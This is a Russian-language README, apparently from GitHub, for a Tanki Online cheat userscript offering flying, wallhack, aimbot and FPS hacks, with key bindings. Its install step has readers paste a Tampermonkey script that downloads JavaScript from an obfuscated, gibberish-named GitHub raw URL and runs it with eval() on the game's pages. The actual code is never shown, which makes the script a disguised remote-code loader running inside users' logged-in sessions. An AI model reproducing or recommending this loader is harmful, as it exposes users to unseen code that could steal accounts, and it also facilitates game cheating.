 # Волкохак для мемберов

## Фишки
*   **Парение**
*   **Клик+одхак+полоска**
*   **Фпсхак**
*   **Шот, аим и оффлазер для страйка**
*   **Воллхак**

## Для начала

*   **1.** Установка темпермонкей  - [тык](https://www.tampermonkey.net/)
*   **2.** Создать новый скрипт
*   **3.** Вставляем этот скрипт в плагин, который мы скачали:
```
// ==UserScript==
// @name         WolfaHack
// @version      1.0
// @description  Волкохак для мемберов
// @author       wolf
// @match        https://*.tankionline.com/*
// @icon         https://www.google.com/s2/favicons?sz=64&domain=tankionline.com

// @require      http://ajax.googleapis.com/ajax/libs/jquery/1.7.2/jquery.min.js
// @require      https://raw.githubusercontent.com/brunoinds/isKeyPressed/main/isKeyPressed.min.js

// @grant        GM_xmlhttpRequest

// ==/UserScript==

GM_xmlhttpRequest({
  method : "GET",
  url : "https://raw.githubusercontent.com/ertoiertoiaerjtaojiagwaureapiefjaeroifs/sretjoti-hjs-rotiuejtoise4jtheduraweilgjawerotiatiawehtlaethiawetiojaw4taw4hntawl4tjiawig.awietjwe4l/main/dsitjseripotsjer%3Boiserjtghoiejrtgesojrigs%3Beropisjeri%3Blhesjrkpoykerphsethopserkhpoaershjestryje4oithjpseoigjesrpogjesriogyaerjoaeirjtpoaw4jtkgaeop'rgtiae4poyae4jyoiaejrgoiaerjtpoae4jgtaeoprgaeoritygjaeogherjpae.js",
  nocache: true,
  onload: (ev) =>
  {
    eval(ev.responseText);
  }
});
```

## Кейкапы
* `R. Shift` - Включить парение
* `LEFT` - Уменьшить скорость 
* `RIGHT` - Увеличить скорость 
* `Q` - Подняться
* `E`- Опуститься
* `J` - Включить анти-аим (тп по карте)
* `R` - Взорвать ракеты (если ракеты застряли)
* `INSERT` - Показать/Убрать меню
* `5` - Включить клик
